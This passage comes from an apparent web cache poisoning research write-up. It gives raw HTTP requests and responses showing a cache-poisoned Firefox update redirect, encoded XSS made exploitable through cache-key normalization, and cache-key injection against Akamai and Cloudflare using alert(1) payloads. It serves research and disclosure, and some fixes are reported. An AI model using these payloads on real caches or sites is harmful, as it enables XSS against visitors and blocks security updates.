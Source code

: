 GET /%3fproduct=firefox-73.0.1-complete&os=osx&lang=en-GB&force=1 HTTP/1.1 Host: download.mozilla.org
HTTP/1.1 301 Found Location: https://www.mozilla.org/
But thanks to nginx's URL-decode, it'll have the same cache key as a legitimate update request. So from that point onwards, Firefox will fail to update globally:
GET /?product=firefox-73.0.1-complete&os=osx&lang=en-GB&force=1 HTTP/1.1 Host: download.mozilla.org
HTTP/1.1 301 Found Location: https://www.mozilla.org/
As Firefox updates often contain critical security fixes, this could be quite serious.

Cache Magic Tricks
We've explored a range of attacks that let us exploit people naturally browsing a poisoned website, but cache poisoning can also sometimes enable otherwise-impossible 'click here to get pwned' style attacks.
Encoded XSS
You may have encountered a situation where you think you've found reflected XSS in Burp Repeater...
GET /?x="/><script>alert(1)</script> HTTP/1.1 Host: example.com
HTTP/1.1 200 OK ... <a href="/?x="/><script>alert(1)</script>
...but you can't replicate it in any web browser, except possibly the decrepit Internet Explorer, because modern browsers URL-encode key characters before issuing the request, and the server doesn't decode them:
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1 Host: example.com
HTTP/1.1 200 OK ... <a href="/?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
This problem used to only affect XSS in the path, but in recent years browsers have started consistently encoding these characters in the query string too.
Luckily for us, cache-key normalization means these two requests have the same key, so we can exploit arbitrary browsers by simply issuing the unencoded attack ourselves before directing the victim to the URL:
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1 Host: example.com
HTTP/1.1 200 OK X-Cache: HIT ... <a href="/?x="/><script>alert(1)</script>
Cache Key Injection - Akamai
Another classically unexploitable issue is client-side vulnerabilities affecting keyed headers, for example, XSS in the Origin header:
GET /?x=2 HTTP/1.1 Origin: '-alert(1)-'
HTTP/1.1 200 OK X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'
<script>...'-alert(1)-'...</script>
This really ought to be unexploitable, but what if a cache like Akamai happens to bundle all the key components into a string without bothering to escape delimiters? We can craft two requests that have the same cache key, even though they are semantically completely different:

GET /?x=2 HTTP/1.1 Origin: '-alert(1)-'__
HTTP/1.1 200 OK X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__
GET /?x=2__Origin='-alert(1)-' HTTP/1.1
HTTP/1.1 200 OK X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__ X-Cache: TCP_HIT
<script>...'-alert(1)'-...</script>
By issuing the first request ourselves, and directing our victim to the second URL, we've made this XSS exploitable. Akamai are working on a fix. Note that if you find this strategy works on the Host header, you can likely get full control over every website using the target CDN.
Cache Key Injection - Cloudflare
After seeing how easy this attack was on Akamai, I decided to try it on Cloudflare. They don't have a handy header that displays their cache key, so instead I referred to their documentation7, which states that the default key is:
${header:origin}::${scheme}://${host_header}${uri}
This should mean that the following pair of requests have the same key:
GET /foo.jpg?bar=x HTTP/1.1 Host: example.com Origin: http://evil.com::http://example.com/foo.jpg?bar=x
GET /foo.jpg?bar=argh::http://example.com/foo.jpg?bar=x HTTP/1.1 Host: example.com Origin: http://evil.com
This didn't work, so I took the next logical step and emailed Cloudflare to ask them to correct their documentation. I ended up explaining the attack concept to their security team, who replied:
The documentation does appear to be wrong ...that said, we are aware it is theoretically possible to construct a cache collision ...[but we won't tell you how]
They've now patched the issue by escaping delimiters. So we know the attack was possible, but we'll never know how - at least I got a t-shirt.